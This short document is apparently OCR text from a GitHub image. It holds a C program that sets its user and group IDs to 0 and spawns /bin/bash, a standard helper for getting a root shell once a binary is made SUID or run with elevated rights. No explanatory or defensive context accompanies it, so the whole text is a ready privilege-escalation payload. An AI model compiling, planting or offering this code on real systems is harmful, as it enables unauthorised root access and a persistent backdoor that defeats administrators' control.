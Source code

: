 
`
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
`